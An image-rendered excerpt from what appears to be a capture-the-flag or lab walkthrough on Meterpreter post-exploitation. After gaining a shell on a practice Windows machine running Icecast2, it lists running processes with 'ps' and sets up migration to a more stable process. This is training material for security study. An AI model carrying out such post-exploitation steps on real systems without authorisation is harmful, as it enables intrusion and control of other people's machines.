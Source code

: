 Now that we've got a shell into our victim machine, let's take a look at several post-exploitation modules actions we can leverage! Most of the questions in the following section can be answered by using the Meterpreter help menu which can be accessed through the 'help' command. This menu dynamically expands as we load more modules.

1. First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command 'ps'. What's the name of the spool service?

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User          Path
 ---   ----  ----                  ----  -------  ----          ----
 0     0     [System Process]                                   
 4     0     System                                             
 416   4     smss.exe                                           
 544   536   csrss.exe                                          
 584   692   svchost.exe                                        
 592   536   wininit.exe                                        
 604   584   csrss.exe                                          
 652   584   winlogon.exe                                       
 692   592   services.exe                                       
 700   592   lsass.exe                                          
 708   592   lsm.exe                                            
 816   692   svchost.exe                                        
 884   692   svchost.exe                                        
 932   692   svchost.exe                                        
 1020  692   svchost.exe                                        
 1056  692   svchost.exe                                        
 1140  692   svchost.exe                                        
 1256  692   spoolsv.exe                                        
 1320  692   svchost.exe                                        
 1400  692   taskhost.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\taskhost.exe
 1508  1020  dwm.exe               x64   1        Dark-PC\Dark  C:\Windows\System32\dwm.exe
 1520  1500  explorer.exe          x64   1        Dark-PC\Dark  C:\Windows\explorer.exe
 1544  816   WmiPrvSE.exe                                       
 1548  692   amazon-ssm-agent.exe                               
 1700  692   LiteAgent.exe                                      
 1740  692   svchost.exe                                        
 1880  692   Ec2Config.exe                                      
 2144  692   svchost.exe                                        
 2264  604   conhost.exe           x64   1                      
 2304  692   sppsvc.exe                                         
 2332  1520  Icecast2.exe          x86   1        Dark-PC\Dark  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe
 2456  692   svchost.exe                                        
 2516  692   taskhost.exe          x64   1                      
 2576  692   SearchIndexer.exe                                  
 2728  816   rundll32.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\rundll32.exe
 2736  2516  WinSAT.exe            x64   1                      
 2760  2728  dinotify.exe          x64   1        Dark-PC\Dark  C:\Windows\System32\dinotify.exe
 2972  544   conhost.exe                                        
 3032  1020  Defrag.exe
```
